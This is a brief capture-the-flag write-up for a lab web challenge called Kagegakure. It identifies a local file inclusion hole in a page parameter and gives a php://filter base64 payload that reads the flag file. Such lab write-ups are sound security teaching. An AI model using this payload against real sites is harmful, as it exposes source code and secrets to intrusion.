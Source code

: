 Challenge Description:
<br>In the hidden village of Kagegakure, the Shadow Clan guards ancient secrets. Amidst rumors of betrayal, your mission is to infiltrate their secure server and uncover the truth. Prove your hacking skills and reveal the hidden secrets of the Shadow Clan.

## Exploration
```http://192.168.59.128/?page=home```
<br>this way of handling webpages can lead to local file inclusion vulnerability.

## Solution
Insert the payload below
<br>```php://filter/convert.base64-encode/resource=flag```

![image](https://github.com/user-attachments/assets/adb87647-5ccc-4950-8e63-080eb9a82bc8)

Decode the base64

![image](https://github.com/user-attachments/assets/eba2e1b1-e26a-48c8-8953-af120e860dac)
